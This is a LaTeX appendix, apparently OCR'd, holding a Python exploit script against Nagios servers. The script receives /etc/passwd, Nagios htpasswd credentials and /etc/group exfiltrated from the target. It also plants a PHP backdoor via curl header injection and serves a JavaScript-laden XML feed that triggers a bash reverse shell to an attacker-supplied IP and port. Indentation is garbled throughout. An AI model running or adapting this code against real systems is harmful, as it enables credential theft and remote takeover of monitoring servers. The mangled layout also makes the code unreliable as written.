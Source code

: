 \documentclass[12pt]{report}
\begin{document}
\begin{appendices}
\begin{scriptsize}
\begin{verbatim}
    def post(self):        
        global docroot_rw
  print "[+] Success, curl payload injected! Received data back from the Nagios server %s\n" % 
  self.request.remote_ip

  # Extract /etc/passwd from the target 
        passwd = self.request.files['passwd'][0]['body']
  print "[*] Contents of /etc/passwd file from the target:\n\n%s" % passwd

  # Extract /usr/local/nagios/etc/htpasswd.users
        htauth = self.request.files['htauth'][0]['body']
  print "[*] Contents of /usr/local/nagios/etc/htpasswd.users file:\n\n%s" % htauth

  # Extract nagios group from /etc/group
        group = self.request.files['group'][0]['body']
  for line in group.splitlines():
      if "nagios:" in line:
    nagios_group = line
    print "[*] Retrieved nagios group line from /etc/group file on the target: %s\n" % nagios_group
  if "www-data" in nagios_group:
    print "[+] Happy days, 'www-data' user belongs to 'nagios' group! (meaning writable webroot)\n"
    docroot_rw = 1

  # Put backdoor PHP payload within the 'Server' response header so that it gets properly saved via the curl
  'trace-ascii'
  # option. The output trace should contain  an unwrapped line similar to:
  # 
  # == Info: Server <?php system("/bin/bash -c 'nohup bash -i >/dev/tcp/192.168.57.3/8080 0<&1 2>&1 &'");
  ?> is not blacklisted
  #
  # which will do the trick as it won't mess up the payload :)
  self.add_header('Server', backdoor)

  # Return XML/feed with JavaScript payload that will run the backdoor code from nagios-backdoor.php
  via <img src=> tag :)
  print "[*] Feed XML with JS payload returned to the client in the response. This should load 
  nagios-backdoor.php in no time :) \n"
  self.write(xmldata)

  self.finish()
  tornado.ioloop.IOLoop.instance().stop()


if __name__ == "__main__":
    global backdoor_path
    global backdoor

    print intro

    # Set attacker's external IP & port to be used by the reverse shell
    if len(sys.argv) < 2 :
     print usage
     sys.exit(2)
    attacker_ip   = sys.argv[1]
    if len(sys.argv) == 3 :
     attacker_port = sys.argv[1]
    else:
     attacker_port = 8080

    # PHP backdoor to be saved on the target Nagios server
    backdoor_path = '/usr/local/nagios/share/nagios-backdoor.php'
    backdoor = """<?php system("/bin/bash -c 'nohup bash -i >/dev/tcp/%s/%s 0<&1 2>&1 &'");
    die("stop processing"); ?>""" % (attacker_ip, attacker_port)


\end{verbatim}
\end{scriptsize}
\end{appendices}
\end{document}
